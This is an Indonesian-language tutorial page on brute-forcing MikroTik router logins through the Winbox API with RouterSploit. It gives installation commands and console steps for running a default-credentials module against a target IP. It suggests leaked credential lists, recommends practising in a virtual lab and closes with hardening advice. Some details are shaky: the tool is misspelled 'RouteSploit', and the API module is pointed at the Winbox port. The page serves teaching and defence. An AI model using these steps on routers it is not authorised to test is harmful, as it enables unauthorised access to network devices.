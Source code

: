 ```yaml
---
sidebar_position: 1
---
```


# Eksploitasi Winbox API Brute Force

## 1. Apa Itu Winbox API?
Winbox API adalah antarmuka yang digunakan oleh perangkat MikroTik untuk memungkinkan komunikasi antara klien dan router melalui protokol Winbox. API ini memungkinkan pengguna mengelola router secara remote menggunakan Winbox atau skrip otomatis.

## 2. Apa Itu Serangan Brute Force dan Hubungannya dengan Winbox API?
Serangan Brute Force adalah metode percobaan berulang kali terhadap kombinasi username dan password hingga menemukan kredensial yang valid. Dalam konteks Winbox API, serangan ini mencoba menebak username dan password untuk mendapatkan akses ke router MikroTik.

## 3. Langkah-Langkah Serangan Brute Force Terhadap Winbox API
### Persiapan:
- **Alat yang dibutuhkan:**
  - RouteSploit (Framework eksploitasi untuk jaringan)
- **Target:**
  - Alamat IP router MikroTik
  - Port default Winbox (8291) atau port yang dikustomisasi
- **Daftar username/password:**
  - Menggunakan daftar kredensial umum atau hasil leak dari sumber lain

### Proses Serangan:
1. Penyerang menggunakan RouteSploit untuk menjalankan eksploitasi brute force terhadap Winbox API.
2. RouteSploit secara otomatis mencoba berbagai kombinasi username dan password.
3. Jika kredensial benar, akses ke router diberikan.

### Analisis Hasil:
- Jika ditemukan username dan password yang valid, penyerang dapat masuk dan mengendalikan router.
- Log router dapat memberikan informasi tentang serangan yang berhasil atau gagal.

## 4. Instalasi dan Penggunaan RouteSploit untuk Brute Force
### Instalasi RouteSploit:
```bash
# Instal dependensi
sudo apt update && sudo apt install python3 python3-pip git -y

# Clone repository RouteSploit
git clone https://github.com/reverse-shell/routersploit.git

# Masuk ke direktori RouteSploit
cd routersploit

# Instal dependensi Python
pip3 install -r requirements.txt
```

### Menjalankan RouteSploit:
```bash
# Jalankan RouteSploit
python3 rsf.py
```

### Menggunakan RouteSploit untuk Brute Force Winbox API:
```bash
rsf > use creds/routers/mikrotik/api_ros_default_creds
rsf (Mikrotik Default Creds - API ROS) > set target 172.16.0.1
rsf (Mikrotik Default Creds - API ROS) > set port 8291
rsf (Mikrotik Default Creds - API ROS) > run
```

## 5. Praktik dalam Lingkungan Lab Virtual
1. Gunakan VirtualBox atau VMware untuk membuat lab virtual.
2. Instal RouterOS di dalam VM.
3. Konfigurasi Winbox API dengan username dan password default untuk pengujian.
4. Gunakan RouteSploit untuk menguji keamanan.

## 6. Cara Melindungi Diri dari Serangan Brute Force
- **Gunakan password yang kuat** (minimal 12 karakter, kombinasi huruf besar, kecil, angka, dan simbol).
- **Aktifkan firewall** untuk membatasi akses ke port Winbox API.
- **Ubah port default Winbox** dari 8291 ke port lain.
- **Pantau log aktivitas** di router secara rutin untuk mendeteksi upaya login mencurigakan.
- **Perbarui RouterOS** secara berkala agar mendapatkan patch keamanan terbaru.